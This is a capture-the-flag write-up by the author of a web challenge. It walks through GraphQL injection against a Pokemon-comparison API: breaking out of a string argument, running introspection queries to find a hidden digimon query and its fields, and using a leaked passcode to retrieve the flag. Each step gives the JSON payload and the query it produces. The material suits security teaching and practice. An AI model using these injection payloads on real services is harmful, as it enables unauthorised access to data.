








# Pokemon
> Author: chemistrying \
> Category: web \
> Expected Difficulty: 4 \
> Final Points: 483 \
> Solves: 1/38 (Secondary), 1/44 (CUHK), 1/8 (Invited Teams)
> 
> I found that there are infiltrators in this pokemon comparator website! They secretly added Flagmon (a new digimon OC) somewhere in their serivce... I obtained the passcode `dish-percent-drop-brief` from their source code, but by the time I try to download their source code, they have already removed it... Can you help me and find Flagmon? You will be rewarded with a flag once you have found it.

## Step 1: HTTP Traffic Analysis
First, you should try to navigate the website and track your HTTP traffic using burpsuite to get the idea of how the website works.

The pokemon comparator relies on one single API endpoint `/api/query`, which is accessible through `POST` request only. 

When we try to add any pokemon (e.g: Pikachu), select some stats to compare, we can see that the changes are reflected inside our post request.

We can obviously try to query `Flagmon` at this point but it won't return anything (since it's not a valid Pokemon, and it's hinted in the description).



Since it's hinted that the flag is in the service (i.e: the backend service) and the website is a single page application, the only way to get the flag is through the API endpoint (aka through `/api/query`).

## Step 2: Injection Test
At this point we can perform some injection test to see if the backend service is vulnerable to some kind of injection.

If we add `"` as one of the names of pokemon, we will see that the service gives us some errors. We can also see that there is a query part in the returned JSON.



If you are familiar with web stuff, you will know that this is a query format of GraphQL. However, if you don't know what query language is that, you can use ChatGPT to help you by asking what query language that is.

## Step 3: Exploit the vulnerability
What we have to do next is to create an injection gap such that we can insert anything we want without having errors (just like what we have to do in SQL injection but without comment trick).



```json
{
    "pokemons":["\") {id} _0:pokemon(name:\""],
    "compares":["id"]
}
```
The above payload actually crafts the following GraphQL query string (not the exact one but it works same as sending the above payload):
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    _0:pokemon(name:"") {
        id
    }
}
```

## Step 4: GraphQL introspection
Now we can insert anything we want. However, we don't know where `Flagmon` is. Therefore, we need to know how to query that out.

In order to know how, we can use [GraphQL's introspection](https://graphql.org/learn/introspection/) to do so.

After refering to the GraphQL introspection showcasing website, we can get something like this:
```json
{
    "pokemons":["\") {id} __type(name:\"Query\") { name fields { name type { name kind } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Query") {
        name
        fields {
            name
            type {
                name
                kind
            }
        }
    }
    _0:pokemon(name:"") {
        id
    }
}
```


We found four querying methods: `hello`, `bye`, `pokemon`, `digimOwOUwURawrn38408375018458385023841203489738570123`.

If we try to query `hello` and `bye`, there aren't any flags. [^1]

The `pokemon` query is what we use to query pokemon data, so we can ignore that.

If we query `digimOwOUwURawrn38408375018458385023841203489738570123` like how we do in `hello`, `bye`, or even `pokemon`, we get errors because these methods require one or more arguments.

## Step 5: Inspect the Fields of Digimon
Since the only possibility of getting `Flagmon` is through `digimOwOUwURawrn38408375018458385023841203489738570123`, we now only pay attention to this query method.

To use this query method, we should know what this query method outputs.

From the previous introspection, we can see that it gives us an `OBJECT` with name `Digimon0x000141a0`.

Let's see what `Digimon0x000141a0` has.

```json
{
    "pokemons":["\") {id} __type(name:\"Digimon0x000141a0\") { name fields { name type { name kind ofType { name kind } } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Digimon0x000141a0") {
        name
        fields {
            name
            type {
                name
                kind
                ofType {
                    name
                    kind
                }
            }
        }
    }
    _0:pokemon(name:"") {
        id
    }
}
```



We got a lot of stuff here. Let's compile all the fields into a list:
- `id` with type `Int`
- `name` with type `String`
- `level` with type `String`
- `type` with type `String`
- `attribute` with type `String`
- `description` with type `String`
- `flag` with type `String`
- `tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b` with type `String`
- `tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5` with type `String`
- `tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e` with type `String`

This would be useful for later queries.
## Step 6: More Introspection
We now need to know what arguments we need to query this.

We can get what arguments are required by introspection (once again).

By reading [the specification of GraphQL](https://spec.graphql.org/October2021/#sec-The-__Field-Type) and making use of previous knowledge, we can craft up the below payload to obtain the list of arguments and its corresponding type.

```json
{
    "pokemons":["\") {id} __type(name:\"Query\") { name fields { name args { name type { name kind ofType { name kind } } } } } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    __type(name:"Query") {
        name
        fields {
            name
            args {
                name
                type {
                    name
                    kind
                    ofType {
                        name
                        kind
                    }
                }
            }
        }
    }
    _0:pokemon(name:"") {
        id
    }
}
```



We can see that we need `passcode` and `name` with both as string as arguments of the query.

## Step 7: Query the Flagmon
If we put empty string in `passcode` and `Flagmon` in `name`, we still don't get the `Digimon` object.

The description mentioned that the passcode is `dish-percent-drop-brief`, so let's put that into our query.

```json
{
    "pokemons":["\") {id} digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\", name:\"Flagmon\") { name } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    digimOwOUwURawrn38408375018458385023841203489738570123(passcode:"dish-percent-drop-brief", name:"Flagmon") {
        name
    }
    _0:pokemon(name:"") {
        id
    }
}
```



By performing a simple query, we can find the `Flagmon`. Now we have to do is to get all fields of `Flagmon`.

```json
{
    "pokemons":["\") {id} digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\", name:\"Flagmon\") { id name level type attribute description flag tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5 tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e } _0:pokemon(name:\""],
    "compares":["id"]
}
```
```graphql
{
    _1:pokemon(name:"") {
        id
    } 
    digimOwOUwURawrn38408375018458385023841203489738570123(passcode:"dish-percent-drop-brief", name:"Flagmon") {
        id
        name
        level
        type
        attribute
        description
        flag
        tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b
        tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5
        tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e
    }
    _0:pokemon(name:"") {
        id
    }
}
```



We can see the flag: `cuhk24ctf{WowoW_u_know_gwAphQL_pitty_well_Want_to_say'Congratuwulations_"hacker"!'-\_/-_for_finding_Fa1gm0n}` (remember you have to remove the backslash).[^2]

[^1]: In fact these are test queries I intended to left behind. Maybe act as an easter egg.
[^2]: The reason I didn't put the flag in the field `flag` is because I don't want people to be guessy and guess the fields of `Digimon` without introspection. However, if you can get the query method names and other stuff, getting all fields from `Digimon` isn't a issue here.